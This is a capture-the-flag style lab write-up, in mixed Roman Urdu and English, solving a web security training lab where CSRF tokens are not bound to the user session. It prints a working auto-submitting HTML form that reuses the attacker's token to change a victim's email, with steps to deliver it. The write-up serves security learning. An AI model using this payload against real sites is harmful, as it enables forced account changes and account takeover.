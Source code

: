 # 🔐 CSRF Lab: Token Not Tied to User Session

## 🧠 Lab Concept Overview

Is lab mein website CSRF token to use karti hai, lekin problem yeh hai ke **yeh token user ke session se linked nahi hota**. Matlab koi bhi token kisi bhi user pe apply ho jata hai — yeh major logic flaw hai.

---

## 📌 Real World Analogy:

Soch ke dekho ke har banda apna ID card kisi bhi doosre ke naam pe use kar sakta hai — aur system sirf card dekh ke kaam kar de, verify na kare ke banda wahi hai ke nahi.

---

## 🛠️ Step-by-Step Lab Solve

### ✅ Step 1: Login as `wiener:peter`

* Burp browser mein lab URL open karo
* Login karo: `wiener : peter`
* Go to "My Account"

---

### ✅ Step 2: Intercept Email Change Request

* Email change form bhar ke submit karo (e.g. `test123@a1.com`)
* Burp Proxy mein request intercept karo:

  ```
  POST /my-account/change-email
  email=test123@a1.com
  csrf=E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ
  ```
* **CSRF token copy karo** (e.g. `E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ`)
* Request ko **DROP kar do** (taake token use na ho)

---

### ✅ Step 3: Exploit HTML Prepare Karo

* Exploit server pe jao
* Body section mein yeh code paste karo:

```html
<form method="POST" action="https://0a4c003f04775ba980646ceb00580037.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="asdas2@assa.com">
  <input type="hidden" name="csrf" value="E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ">
</form>
<script>
  document.forms[0].submit();
</script>
```

* ✅ Lab URL ka apna action link daalo
* ✅ Email koi **unique aur valid** likho
* ✅ CSRF token wahi wiener wali copy ki hui value rakho

---

### ✅ Step 4: Store & Deliver

* Click **Store** on exploit server
* Click **Deliver to Victim**
* ✅ **Lab Solved!**

---

## 🔍 Kya Seekha?

* Agar CSRF token user session se link nahi hota to koi bhi valid token kisi aur user pe apply ho sakta hai
* Ye logic flaw hota hai aur real-world mein bhi milta hai
* Penetration testing mein aise flaws test karne hote hain

---

## 🧠 Zuban Mein Summary:

> "Server token check to karta hai lekin ye dekhne ka system hi nahi banaya ke yeh token isi user ka hai. Isi liye hum wiener se token le ke carlos ke session mein use kar lete hain. Yeh dangerous logic flaw hai."

